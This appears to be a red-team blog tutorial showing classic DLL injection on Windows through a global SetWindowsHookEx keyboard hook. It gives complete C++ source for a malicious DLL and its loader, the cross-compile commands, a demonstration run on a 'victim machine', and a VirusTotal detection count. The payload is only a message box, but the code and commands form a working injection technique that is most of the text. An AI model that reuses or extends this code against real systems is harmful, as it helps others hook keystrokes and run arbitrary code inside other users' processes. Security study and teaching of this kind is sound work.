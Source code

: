 ```yaml
---
title:  "Classic DLL injection via SetWindowHookEx. Simple C++ malware."
date:   2021-11-25 10:00:00 +0600
header:
  teaser: "/assets/images/25/2021-11-24_18-00.png"
categories: 
  - tutorial
tags:
  - dll injection
  - windows
  - malware
  - red team
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![dll injection](/assets/images/25/2021-11-24_18-00.png){:class="img-responsive"}    

In this tutorial, I'll take a look at the DLL injection by using the `SetWindowsHookEx` method.    

### SetWindowsHookEx

Let's go to look an example which demonstrates this technique. The `SetWindowsHookEx` installs a hook routine into the hook chain, which is then invoked whenever certain events are triggered. Let's take a look at the function syntax:
```cpp
HHOOK SetWindowsHookExA(
  [in] int       idHook,
  [in] HOOKPROC  lpfn,
  [in] HINSTANCE hmod,
  [in] DWORD     dwThreadId
);
```

The most important param here is `idHook`. The type of hook to be installed, which can hold one of the following values:

    WH_CALLWNDPROC
    WH_CALLWNDPROCRET
    WH_CBT
    WH_DEBUG
    WH_FOREGROUNDIDLE
    WH_GETMESSAGE
    WH_JOURNALPLAYBACK
    WH_JOURNALRECORD
    WH_KEYBOARD
    WH_KEYBOARD_LL
    WH_MOUSE
    WH_MOUSE_LL
    WH_MSGFILTER
    WH_SHELL
    WH_SYSMSGFILTER

In our case, I'll be hooking the `WH_KEYBOARD` type of event, which will allow us to monitor keystroke messages.

### Malicious DLL

Let's go to prepare our malicious DLL. For simplicity, we create DLL which just pop-up a message box:
```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/11/25/malware-injection-7.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}

extern "C" __declspec(dllexport) int Meow() {
  MessageBox(
    NULL,
    "Meow from evil.dll!",
    "=^..^=",
    MB_OK
  );
  return 0;
}

```

As you can see we have a pretty simple DLL. The `DllMain()` function is called when the DLL is loaded into the process's address space. There's also a function named `Meow()`, which is an exported function and which is just pop-up message *"Meow from evil.dll!"*.   

### Example. Simple malware.

The next thing that we need to do is create our malware. Let's go to look the source code:
```cpp
/*
hack.cpp
DLL inject via SetWindowsHookEx
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/11/25/malware-injection-7.html
*/
#include <windows.h>
#include <cstdio>

typedef int (__cdecl *MeowProc)();

int main(void) {
  HINSTANCE meowDll;
  MeowProc meowFunc;
  // load evil DLL
  meowDll = LoadLibrary(TEXT("evil.dll"));

  // get the address of exported function from evil DLL
  meowFunc = (MeowProc) GetProcAddress(meowDll, "Meow");

  // install the hook - using the WH_KEYBOARD action
  HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, (HOOKPROC)meowFunc, meowDll, 0);
  Sleep(5*1000);
  UnhookWindowsHookEx(hook);

  return 0;
}
```

It's also pretty simple. First of all we call `LoadLibrary` to load our malicious DLL:    

![dll injection 2](/assets/images/25/2021-11-25_15-35.png){:class="img-responsive"}    

Then, we are calling the `GetProcAddress` to get the address of the exported function `Meow`:    

![dll injection 3](/assets/images/25/2021-11-25_15-36.png){:class="img-responsive"}    

After that, the our malware calls the most important function, the `SetWindowsHookEx`. The parameters passed to that function determine what the function will actually do:   

![dll injection 4](/assets/images/25/2021-11-25_15-40.png){:class="img-responsive"}    

As you can see, whenever the keyboard event will occur, our function will be called. And we are passing the address of the our exported function - `meowFunc` parameter. Also we are passing the handle to our DLL - `meowDll` parameter. The last parameter `0` specifies that we want all programs to be hooked, not just a specific one, so it's a global hook.    

Then we call `Sleep`:

![dll injection 5](/assets/images/25/2021-11-25_15-44.png){:class="img-responsive"}    

for demonstrate that our hook works.

Then we call the `UnhookWindowsHookEx()` function to unhook the previously hooked `WH_KEYBOARD` action:

![dll injection 6](/assets/images/25/2021-11-25_15-46.png){:class="img-responsive"}    

So finally after we understood entire code of the malware, we can test it.    
Let's go to compile malicious DLL firstly:
```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

![dll injection 7](/assets/images/25/2021-11-25_15-48.png){:class="img-responsive"}    
 
compile malware code:
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![dll injection 8](/assets/images/25/2021-11-25_15-50.png){:class="img-responsive"}    

Then, see everything in action! Start our `hack.exe` on the victim machine (Windows 7 x64):
```cmd
.\hack.exe
```

![dll injection 9](/assets/images/25/2021-11-25_15-54.png){:class="img-responsive"}    

We can see that everything was completed successfully and at this point whenever we start a program, pop-up our message only when keyboard key is pressed.   

### Conclusion

In this article, I've demonstrate how we can use the `SetWindowsHookEx` function to inject the DLL into the process's address space and execute arbitrary code inside the process's address space.    

There is a caveat. This technique is not working in my Windows 10 x64 machine. I think the reason is this: CIG block this technique. Windows 10 x64 have two important things:

- **CFG (Control Flow Guard)** – prevent indirect calls to non-approved 
addresses
- **CIG (Code Integrity Guard)** - only allow modules signed by 
Microsoft/Microsoft Store/WHQL to be loaded into the process memory.   

In [this](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf) presentation from BlackHat USA 2019, the authors explain that CIG block this technique.    

Let's go to upload our `hack.exe` to virustotal:

![dll injection 10](/assets/images/25/2021-11-26_03-02.png){:class="img-responsive"}    

[https://www.virustotal.com/gui/file/273e191999eb6a4bc010eeaf9c4e196d917509250f87a121fa1cfeded41b7921](https://www.virustotal.com/gui/file/273e191999eb6a4bc010eeaf9c4e196d917509250f87a121fa1cfeded41b7921)    

**So, 5 of of 67 AV engines detect our file as malicious.**    

[BlackHat USA 2019 process injection techniques Gotta Catch Them All](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf)     
[SetWindowsHookEx](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-setwindowshookexa)    
[Using Hooks MSDN](https://docs.microsoft.com/en-us/windows/win32/winmsg/using-hooks)    
[Exporting from a DLL](https://docs.microsoft.com/en-us/cpp/build/exporting-from-a-dll-using-declspec-dllexport?view=msvc-170)        
[Source code in Github](https://github.com/cocomelonc/2021-11-24-malware-injection-7)    

> This is a practical case for educational purposes only.      

Thanks for your time, happy hacking and good bye!    
*PS. All drawings and screenshots are mine*